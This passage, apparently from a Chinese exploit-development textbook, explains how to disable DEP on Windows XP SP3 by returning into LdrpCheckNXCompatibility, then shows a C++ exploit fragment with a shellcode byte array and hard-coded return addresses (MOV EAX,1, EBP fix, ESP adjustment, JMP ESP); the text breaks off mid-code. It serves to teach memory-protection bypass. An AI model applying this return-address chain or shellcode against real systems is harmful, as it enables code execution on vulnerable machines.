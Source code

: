 <img src="images/09/ldrpChecknxcompatibility关闭DEP流程.png" >

现在我们知道 LdrpCheckNXCompatibility 关闭 DEP 的流程了，我们开始尝试模拟这个过程，我们将从 0x7C93CD24 入手关闭 DEP，这个地址可以通过 OllyFindAddr 插件中的 Disable DEP→Disable DEP <=XP SP3 来搜索，如图 12.3.3 所示。 
 
<img src="images/09/关闭DEP入口地址搜索结果.png">

由于只有``` CMP AL ，1``` 成立的情况下程序才能继续执行，所以我们需要一个指令将 AL 修 改为 1。将 AL 修改为 1 后我们让程序转到 0x7C93CD24 执行，在执行 0x7C93CD6F 处的 RETN 4 时 DEP 已经关闭，此时如果我们可以在让程序在 RETN 到一个我们精心构造的指令地址上， 就有可能转入 shellcode 中执行了。我们通过以下代码来分析此流程的具体过程。 

```c++
#include<stdlib.h> 
#include<string.h> 
#include<stdio.h> 
#include<windows.h> 
#include<tchar.h>

char shellcode[]= 
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" 
	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" 
	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" 
	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" 
	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" 
	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" 
	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" 
	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" 
	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" 
	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" 
	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90" 
    "\x90\x90\x90\x90" 
	"\x52\xE2\x92\x7C"//MOV EAX,1 RETN 地址 
    "\x85\x8B\x1D\x5D"//修正 EBP 
    "\x19\x4A\x97\x7C"//增大 ESP 
    "\xB4\xC1\xC5\x7D"//jmp esp 
```